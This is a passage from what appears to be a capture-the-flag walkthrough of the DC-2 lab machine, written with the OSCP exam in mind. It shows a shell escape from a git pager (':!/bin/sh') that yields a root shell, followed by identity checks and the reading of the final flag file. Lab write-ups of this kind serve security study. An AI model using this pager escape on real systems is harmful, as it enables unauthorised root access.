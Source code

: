 ```bash
       When writing, the new value is written to the repository local configuration file by default, and options --system, --global, --file <filename> can be used to tell the command to write to that location (you can say --local
       but that is the default).

       This command will fail with non-zero status upon error. Some exit codes are:

        1. The config file is invalid (ret=3),

        2. can not write to the config file (ret=4),

        3. no section or name was provided (ret=2),

        4. the section or key is invalid (ret=1),

        5. you try to unset an option which does not exist (ret=5),

        6. you try to unset/set an option for which multiple lines match (ret=5), or
:

```
Now we should try to spawn a shell.
```bash
:!/bin/sh
# 

```
Let's find out who we are.
```bash
# whoami;id;hostname
root
uid=0(root) gid=0(root) groups=0(root)
DC-2
# cd ~
# pwd
/root
# ls
final-flag.txt
```
Since we are root on the system, we know the flag name we can capture all the information like we should do in the OSCP exam.
Don't forget to make a screenshot during the exam of this information!
```bash
# whoami;id;hostname;ifconfig;cat final-flag.txt
root
uid=0(root) gid=0(root) groups=0(root)
DC-2
eth0      Link encap:Ethernet  HWaddr 08:00:27:41:f5:63  
          inet addr:10.0.2.31  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe41:f563/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:147804 errors:0 dropped:0 overruns:0 frame:0
          TX packets:155046 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:13080942 (12.4 MiB)  TX bytes:36910916 (35.2 MiB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:100 errors:0 dropped:0 overruns:0 frame:0
          TX packets:100 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0 
          RX bytes:9949 (9.7 KiB)  TX bytes:9949 (9.7 KiB)
```